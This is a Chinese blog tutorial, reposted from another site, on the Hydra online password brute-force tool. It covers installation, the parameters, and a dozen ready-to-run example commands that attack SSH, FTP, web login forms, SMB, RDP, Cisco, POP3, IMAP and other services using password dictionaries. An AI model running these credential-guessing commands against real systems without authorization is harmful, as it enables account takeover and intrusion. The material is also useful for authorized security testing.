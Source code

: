 ```yaml
---
layout: post
title: Linux下的暴力密码在线破解工具Hydra详解
---
```


###一、简介

hydra是著名黑客组织thc的一款开源的暴力密码破解工具，可以在线破解多种密码。官网： http://www.thc.org/thc-hydra，可支持AFP, Cisco AAA, Cisco auth, Cisco enable, CVS, Firebird, FTP, HTTP-FORM-GET, HTTP-FORM-POST, HTTP-GET, HTTP-HEAD, HTTP-PROXY, HTTPS-FORM-GET, HTTPS-FORM-POST, HTTPS-GET, HTTPS-HEAD, HTTP-Proxy, ICQ, IMAP, IRC, LDAP, MS-SQL, MYSQL, NCP, NNTP, Oracle Listener, Oracle SID, Oracle, PC-Anywhere, PCNFS, POP3, POSTGRES, RDP, Rexec, Rlogin, Rsh, SAP/R3, SIP, SMB, SMTP, SMTP Enum, SNMP, SOCKS5, SSH (v1 and v2), Subversion, Teamspeak (TS2), Telnet, VMware-Auth, VNC and XMPP等类型密码。

###二、安装

如果是Debian和Ubuntu发行版，源里自带hydra，直接用apt-get在线安装：

	sudo apt-get install libssl-dev libssh-dev libidn11-dev libpcre3-dev libgtk2.0-dev libmysqlclient-dev libpq-dev libsvn-dev firebird2.1-dev libncp-dev hydra

Redhat/Fedora发行版的下载源码包编译安装，先安装相关依赖包：

	yum install openssl-devel pcre-devel ncpfs-devel postgresql-devel libssh-devel subversion-devel
	hydra下载地址：http://www.thc.org/releases/hydra-7.3.tar.gz
	# tar zxvf hydra-7.0-src.tar.gz
	# cd hydra-7.0-src
	# ./configure
	# make
	# make install

hydra支持GUI图形界面，不过习惯还是命令好用。

###三、参数说明

	hydra [[[-l LOGIN|-L FILE] [-p PASS|-P FILE]] | [-C FILE]] [-e ns]
	[-o FILE] [-t TASKS] [-M FILE [-T TASKS]] [-w TIME] [-f] [-s PORT] [-S] [-vV] 
	server service [OPT]
	
-R 继续从上一次进度接着破解。
-S 采用SSL链接。
-s PORT 可通过这个参数指定非默认端口。
-l LOGIN 指定破解的用户，对特定用户破解。
-L FILE 指定用户名字典。
-p PASS 小写，指定密码破解，少用，一般是采用密码字典。
-P FILE 大写，指定密码字典。
-e ns 可选选项，n：空密码试探，s：使用指定用户和密码试探。
-C FILE 使用冒号分割格式，例如“登录名:密码”来代替-L/-P参数。
-M FILE 指定目标列表文件一行一条。
-o FILE 指定结果输出文件。
-f 在使用-M参数以后，找到第一对登录名或者密码的时候中止破解。
-t TASKS 同时运行的线程数，默认为16。
-w TIME 设置最大超时的时间，单位秒，默认是30s。
-v / -V 显示详细过程。
server 目标ip
service 指定服务名，支持的服务和协议：telnet ftp pop3[-ntlm] imap[-ntlm] smb smbnt http-{head|get} http-{get|post}-form http-proxy cisco cisco-enable vnc ldap2 ldap3 mssql mysql oracle-listener postgres nntp socks5 rexec rlogin pcnfs snmp rsh cvs svn icq sapr3 ssh smtp-auth[-ntlm] pcanywhere teamspeak sip vmauthd firebird ncp afp等等。
OPT 可选项

###使用示例

1、破解ssh：

	hydra -l 用户名 -P 密码字典 -t 线程 -vV -e ns ip ssh
	hydra -l 用户名 -P 密码字典 -t 线程 -o save.log -vV ip ssh

2、破解ftp：

	hydra ip ftp -l 用户名 -P 密码字典 -t 线程(默认16) -vV
	hydra ip ftp -l 用户名 -P 密码字典 -e ns -vV

3、get方式提交，破解web登录：

	hydra -l 用户名 -P 密码字典 -t 线程 -vV -e ns ip http-get /admin/
	hydra -l 用户名 -P 密码字典 -t 线程 -vV -e ns -f ip http-get /admin/index.php

4、post方式提交，破解web登录：

	hydra -l 用户名 -P 密码字典 -s 80 ip http-post-form "/admin/login.php:username=^USER^&password=^PASS^&submit=login:sorry password"

	hydra -t 3 -l admin -P pass.txt -o out.txt -f 10.36.16.18 http-post-form "login.php:id=^USER^&passwd=^PASS^:<title>wrong username or password</title>"

（参数说明：-t同时线程数3，-l用户名是admin，字典pass.txt，保存为out.txt，-f 当破解了一个密码就停止， 10.36.16.18目标ip，http-post-form表示破解是采用http的post方式提交的表单密码破解,<title>中的内容是表示错误猜解的返回信息提示。）

5、破解https：

	hydra -m /index.php -l muts -P pass.txt 10.36.16.18 https

6、破解teamspeak：

	hydra -l 用户名 -P 密码字典 -s 端口号 -vV ip teamspeak

7、破解cisco：

	hydra -P pass.txt 10.36.16.18 cisco
	hydra -m cloud -P pass.txt 10.36.16.18 cisco-enable

8、破解smb：

	hydra -l administrator -P pass.txt 10.36.16.18 smb

9、破解pop3：

	hydra -l muts -P pass.txt my.pop3.mail pop3

10、破解rdp：

	hydra ip rdp -l administrator -P pass.txt -V

11、破解http-proxy：

	hydra -l admin -P pass.txt http-proxy://10.36.16.18

12、破解imap：

	hydra -L user.txt -p secret 10.36.16.18 imap PLAIN
	hydra -C defaults.txt -6 imap://[fe80::2c:31ff:fe12:ac11]:143/PLAIN

---
*转自[这里](http://www.ha97.com/5186.html)*